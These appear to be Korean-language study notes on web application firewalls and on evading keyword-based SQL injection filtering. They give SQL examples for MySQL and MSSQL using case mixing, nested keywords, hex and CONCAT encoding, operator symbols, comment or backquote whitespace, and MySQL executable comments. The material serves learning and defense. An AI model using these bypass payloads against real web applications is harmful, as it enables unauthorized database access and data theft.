 # Bypass WAF

각 DBMS 별로 방화벽을 우회하기 위한 방법
* 방화벽 적용 시 얻는 이점
    - 악성 트래픽을 유발하는 디도스와 데이터베이스와 관련된 SQL Injection, 자바 로깅 라이브러리에서 발생한 log4j 등의 **공격을 탐지하고 접속을 차단함**
* **Web Application Firewall**(**WAF**): 웹 애플리케이션에 특화된 방화벽 (= 웹 방화벽)
    - 공격에 사용되었던 코드, 즉 주요 키워드를 기반으로 탐지함
        + 키워드를 이용해 탐지하는 방식은 근본적인 취약점을 해결할 수 없다는 한계가 존재함
    - 방화벽이 적용된 웹 서비스에서는 SQL Injection 취약점이 발생하더라도 공격을 최소화할 수 있음
        + 취약점은 여전히 존재하는 상태이기 때문에 SQL 문을 조작하여 방화벽을 우회하고 공격할 수 있음
    - 웹 방화벽의 장점과 단점
        + 취약점을 이용한 공격의 피해를 최소화하는 장점이 있음
            - 알려진 공격 키워드를 탐지, 과도한 트래픽이 발생할 경우 트래픽 과부하가 발생하는 IP를 차단
        + 단순한 공격을 막기 위해 방화벽을 도입한다면 가용성 침해, 비용 낭비 등이 발생할 수 있다는 단점이 있음
            - 방화벽을 도입하기 위해서는 보호가 필요한 서버를 지정하고, 서비스에서 발생하는 트래픽의 용량을 측정하는 등의 과정이 필요함 <br/> &nbsp;&nbsp;→ 시간과 비용이 발생함

<br/><br/>

## 탐지 우회
### 대소문자 검사 미흡
SQL은 데이터베이스와 컬럼명을 포함해 질의문의 **대소문자를 구분하지 않고** 실행함
* 방화벽에서 대문자 키워드만 필터링하는 경우 소문자를 사용해 이를 우회할 수 있음
    ```sql
    -- 방화벽에서 "UNION"만 필터링하는 경우
    SELECT 1 union SELECT 1, 2, 3 -- 소문자 키워드를 사용하여 필터링 우회 가능
    ```
* 방화벽에서 소문자, 대문자 키워드를 모두 검사할 경우 대소문자를 혼용하여 우회할 수 있음
    ```sql
    -- 방화벽에서 "UNION", "union"을 검사하는 경우
    selEcT 1 UnIoN SeLecT 1, 2, 3 -- 대소문자를 혼용하여 사용함 → 필터링 우회 가능
    ```

<br/>

### 탐지 과정 미흡
방화벽에서 악성 키워드를 탐지했을 때 악성 키워드가 포함된 요청을 거부하거나 **내부에서 치환 과정을 거친 후 요청을 처리**할 수 있음
* 방화벽에서 특정 키워드를 탐지하여 공백으로 치환할 경우 키워드 내부에 키워드를 중첩하여 작성하는 방법으로 이를 우회할 수 있음
    ```sql
    -- 방화벽에서 "UNION", "union"을 탐지하고 공백으로 치환할 경우 (단, 검사는 반복해서 수행하지 않음)
    SELECT 1 UNunionION SELECT 1, 2, 3; -- 결과: SELECT 1 UNION SELECT 1, 2, 3; (필터링 결과로 쿼리문이 완성되어 내부에서 정상적으로 처리됨)
    ```

<br/>

### 문자열 검사 미흡
일반적인 상황에서 "admin"이라는 문자열을 사용하는 경우는 많지 않기 때문에 방화벽에서 "admin" 키워드의 포함 여부를 검사함
* 방화벽에서 특정 키워드를 탐지하는 경우 해당 문자열을 뒤집거나 이어붙이거나 16진수로 표현하는 등의 방법으로 이를 우회할 수 있음
    ```sql
    -- 방화벽에서 "admin" 키워드를 탐지하는 경우
    SELECT REVERSE('nimda'); -- REVERSE 함수 결과 인자로 주어진 문자열이 뒤집히면 'admin'이 되므로 필터링을 우회할 수 있음
    SELECT CONCAT('adm', 'in'); -- CONCAT 함수 결과 인자로 주어진 두 문자열이 합쳐져서 'admin'을 완성하므로 필터링을 우회할 수 있음
    SELECT x'61646d696e', 0x61646d696e; -- 'admin'을 16진수로 변환한 값이 '61646d696e'이므로 필터링을 우회할 수 있음
    ```

<br/>

### 연산자 검사 미흡
일반 이용자의 입력값에는 연산자가 필요하지 않으므로 방화벽에서 "AND", "OR"와 같은 연산자 키워드의 포함 여부를 검사함
* 방화벽에서 연산자 키워드를 탐지할 경우 연산자를 의미하는 기호 등으로 바꿔서 입력하면 이를 우회할 수 있음
    ```sql
    -- 방화벽에서 "AND", "OR" 연산자 키워드의 포함 여부를 검사하는 경우
    SELECT 1 && 1; -- AND 키워드를 의미하는 기호인 &&을 사용하여 검사를 우회함
    SELECT 1 || 1; -- OR 키워드를 의미하는 기호인 ||을 사용하여 검사를 우회함
    ```
    - ^, =, !=, %, /, *, &, &&, |, ||, >, <, XOR, DIV, LIKE, RLIKE, REGEXP, IS, IN, NOT, MATCH, AND, OR, BETWEEN, ISNULL 등의 연산자를 사용할 수 있음

<br/>

### 공백 탐지
공백을 허용하는 경우 공격자가 SQL Injection을 통해 다양한 함수와 또 다른 쿼리를 삽입해 의도하지 않은 결과가 나타날 수 있으므로 공백 문자가 필요하지 않는 경우에 이를 검사함
* 방화벽에서 공백 문자를 검사하는 경우 주석이나 Back Quote 등을 이용하여 이를 우회할 수 있음
    ```sql
    -- 방화벽에서 공백 문자 포함 여부를 검사하는 경우
    SELECT/**/'abc'; -- SELECT 구문과 'abc' 문자열 사이에 주석을 나타내는 /**/를 삽입해 공백을 대신함
    SELECT`username`,(password)FROM`users`WHERE`username`='admin'; -- Back Quote(`)를 사용하여 공백 없이 쿼리를 실행시킬 수 있음
    ```

<br/><br/>

## 각 DBMS 별 탐지 우회
### MySQL
* 문자열 검사 우회
    - 문자열 검사 우회 시 사용할 수 있는 MySQL 함수
        | 함수 | 형식 | 설명 |
        |---|-----|---------|
        | CHAR 함수 | ```CHAR(N, ...)``` | 각 인수 N을 정수로 해석하고 해당 정수의 코드 값으로 지정된 문자로 구성된 문자열을 반환함 |
        | CONCAT 함수 | ```CONCAT(str1, str2, ...)``` | 인수로 주어진 문자열을 연결한 결과 문자열을 반환함 |
        | MID 함수 | ```MID(str, pos, len)``` | str에서 pos 위치에서 시작해 len만큼을 자른 하위 문자열을 반환함 |
    - 예시
        ```sql
        SELECT 0x6162, 0b110000101100010; -- 결과: ab (16진수, 2진수를 이용해 문자열 ab를 표현함)
        
        SELECT CHAR(0x61, 0x62); -- 결과: ab
        SELECT CONCAT(CHAR(0x61), CHAR(0x62)); -- 결과: ab

        SELECT MID(@@version, 12, 1); -- 결과: n
        ```

* 공백 검사 우회
    - MySQL에서는 개행과 주석을 이용해 공백 검사를 우회할 수 있음
    - 예시
        ```sql
        SELECT
        1; -- 결과: 1 (개행을 이용해 공백 검사를 우회할 수 있음)

        SELECT/**/1; --결과: 1 (주석 /**/를 이용해 공백 검사를 우회할 수 있음)
        ```

* 주석 구문 실행
    - WAF에서는 ```/* ... */```을 주석으로 인식하고 쿼리 구문으로 해석하지 않음
    - MySQL Server에서 제공하는 기능 중 ```/*! MySQL-specific code */```는 주석 내 구문을 분석하고, 이를 쿼리의 일부로 실행함 → WAF를 우회하고 MySQL에서 임의의 쿼리를 실행할 수 있음
        ```sql
        SELECT 1 /*!union*/ SELECT 2; -- /*! ... */ 안의 union을 쿼리의 일부로 실행하고 있음
        /* 결과
        1
        2
        */
        ```

<br/>

### MSSQL
* 문자열 검사 우회
    - 문자열 검사 우회 시 사용할 수 있는 MSSQL 함수
        | 함수 | 형식 | 설명 |
        |---|-----|---------|
        | CHAR 함수 | ```CHAR(integer_expression)``` | 0에서 255 사이의 정수를 입력받아 현재 데이터베이스의 기본 데이터 정렬 문자 집합 및 인코딩에 정의된 대로 지정된 정수 코드를 사용하는 싱글 바이트 문자를 반환함 |
        | CONCAT 함수 | ```CONCAT(string_value1, string_value2 [, string_valueN])``` | 둘 이상의 string_value 인수를 연결한 문자열을 반환함 |
        | SUBSTRING 함수 | ```SUBSTRING(expression, start, length)``` | expression에서 start 위치부터 length 길이만큼 자른 문자열을 반환함 |
    - 예시
        ```sql
        SELECT CHAR(0x61); -- 결과: a
        SELECT CONCAT(CHAR(0x61), CHAR(0x62)); -- 결과: ab
        SELECT SUBSTRING(@@version, 134, 1); -- 결과: n
        ```

* 공백 검사 우회
    - MSSQL에서는 개행과 주석을 이용해 공백 검사를 우회할 수 있음
    - 예시
        ```sql
        SELECT
        1; -- 결과: 1 (개행을 이용해 공백 검사를 우회할 수 있음)

        SELECT/**/1; -- 결과: 1 (주석 /**/를 이용해 공백 검사를 우회할 수 있음)
        ```

<br/>
